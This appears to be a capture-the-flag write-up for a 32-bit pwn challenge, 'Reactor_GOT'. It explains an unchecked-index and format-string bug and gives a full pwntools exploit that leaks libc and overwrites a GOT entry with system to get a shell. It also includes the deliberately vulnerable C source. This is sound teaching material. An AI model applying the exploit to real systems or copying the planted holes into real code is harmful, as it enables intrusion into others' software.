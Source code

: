 # Reactor_GOT

### Author

[b3y0nd3r](https://twitter.com/GeethnaTk)
[rudyerudite](https://twitter.com/rudyerudite)


### Description

The Reactor seems to be infuritating. The control programs, running in APEX controller machine, seems to be messing up in computing. Officials call Kathleen to the save the day. Can you help her in reaching the Reactor on time?

PS: This challenge use the new updated Ubuntu 18.04 libc

### Writeup

Before getting our hands dirty on the binary, we execute a initial `checksec chall` which tells us about the mitigations enabled on the binary.
`
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
` 

`RelRO` is partial - gives us a possibility of overwriting the GOT table and in turn calling the function of our choice. Let's see if we find a primitive to achieve this. Mind you this is a 32-bit binary (do a `file chall`) which means the addresses are going to be 4 bytes. To learn more about the GOT table [lookup here](https://www.youtube.com/watch?v=kUk5pw4w0h4). Also, PIE is disabled as well- address of the GOT table is unrandomized each time.

Let's get started with the challenge, we have 3 options here: `add`, `show`, `break_armour`. Mind you reactor here is a global array declared as: `char *reactor[3][4]`. 

```C
void add(){

	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	puts("Enter the data :");
	read(0,reactor[idx],0x4);
		
}
```
Nothing really looks suspicious here other than the signed `idx`. A possibility of integer overflow? Also, we can allocate/ write anything at `reactor+idx` , so if negative values of `idx` are allowed we can truly cause a havoc by overwriting the GOT table. As our `reactor` is stored on BSS and so is your GOT table plus you know it's address. Thus calculating the right offset would help us overwriting the GOT table! That's super awesome, but what will you overwrite with? Well, at the end all we want is a shell so overwriting with the `libc system` or any of the `gadgets` would help us. I followed the former easier approach.

```C
void show(){
	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	if(reactor[idx])
		printf("%s\n",reactor[idx]);
	else
		puts("Not allocated!");
}
``` 
Another thing to notice here is that there is no check on the `idx` which can be used to print the data stored at `reactor+(-idx)` location. I used this to get `libc` leaks as these addresses are randomized on each run because of `ASLR`. From the leaks I could calculate the address of `system` and I overwrote GOT table entry of `printf` with it. 

I used the 3rd option here, `printf(break_)` where `break_` is '/bin/sh'. Lo and behold, the shell pops up and you `cat` your `flag`. As an alternative to getting leaks using the `show` function you can use the `format string` vulnerability in `printf(break_)` and get the required leaks. 

### Exploit
```python
from pwn import *
#p = process("./chall")

p = remote('34.72.218.129',5555)

def add(idx,data):
    p.sendlineafter("MELTDOWN)\n","1")
    p.sendlineafter("index :\n",str(idx))
    p.sendlineafter("data :\n",data)

def show(idx):
    p.sendlineafter("MELTDOWN)\n","2")
    
    p.sendlineafter("Enter the index :\n",str(idx))
def leave():
    p.sendlineafter("MELTDOWN)\n","3")

p.sendline("/bin/sh\x00")
show("268435454")

print("leaks:")
leak = u32(p.recvline()[:4].strip().ljust(4,'\x00'))
print(hex(leak))
base = leak - 0x1d55c0
system = base + 0x3ce10
add("268435449",p32(system))
#gdb.attach(p)

leave()
p.interactive()
```

### Source Code

```C
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

char *reactor[3][4];


void initialize()
{
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
	setvbuf(stderr,0,2,0);
}
void printmenu(){

	puts("Choose your ACTION:");
	puts("1. add");
	puts("2. show");
	puts("3. break armour");
}
void add(){

	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	puts("Enter the data :");
	read(0,reactor[idx],0x4);
		
}

void show(){
	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	if(reactor[idx])
		printf("%s\n",reactor[idx]);
	else
		puts("Not allocated!");
}

int main()
{
	int choice;
	int c = 0;
	initialize();
	char break_[8];
	printf("ARMOUR: enabled! Try to break in ;)");
	gets(break_);
	while(c != 3){
		puts("Welcome to The Reactor (current status: MELTDOWN)");
		printmenu();
		scanf("%d",&choice);
		if(choice == 1)
			add();
		else if(choice == 2)
			show();
		else if(choice == 3)
			{
				printf(break_);
			}
		else
			exit(0);
		c += 1;
	}
	return 0;
}
```
